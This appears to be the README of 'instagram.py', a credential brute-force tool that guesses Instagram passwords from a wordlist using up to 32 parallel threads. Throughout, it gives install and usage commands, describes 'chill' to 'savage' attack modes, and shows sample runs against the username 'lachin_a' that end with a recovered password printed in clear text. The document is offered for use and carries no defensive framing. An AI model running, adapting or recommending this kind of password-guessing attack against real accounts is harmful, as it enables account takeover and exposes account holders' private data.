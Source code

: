 Install Dependencies
pip3 install -r requirements.txt
Help
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
Usage
python3 instagram.py <username> <wordlist> -m <mode>
Bots(Threads)
4 bots: 64 passwords at a time
8 bots: 128 passwords at a time
16 bots: 256 passwords at a time
32 bots: 512 passwords at a time
Modes
0: 32 bots
1: 16 bots
2: 8 bots
3: 4 bots
Chill mode
This mode uses only 4 bots, or 64 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 3
Moderate mode 1
This mode uses 8 bots, or 128 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 2
Moderate mode 2
This mode uses 16 bots, or 256 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 1
Savage mode
This mode uses 32 bots, or 512 passwords at a time.

python3 instagram.py lachin_a pass.lst -m 0
If you don't specify a mode, then mode is set to 2
Run
[-] Wordlist: pass.lst
[-] Username: lachin_a
[-] Password: lachin222
[-] Complete: 45.51%
[-] Attempts: 123
[-] Browsers: 68
[-] Exists: True
Stop
[-] Wordlist: pass.lst
[-] Username: lachin_a
[-] Password: lachin1234
[-] Complete: 62.67%
[-] Attempts: 30
[-] Browsers: 35
[-] Exists: True

[!] Password Found
[+] Username: lachin_a  
[+] Password: lachin123456
......................................
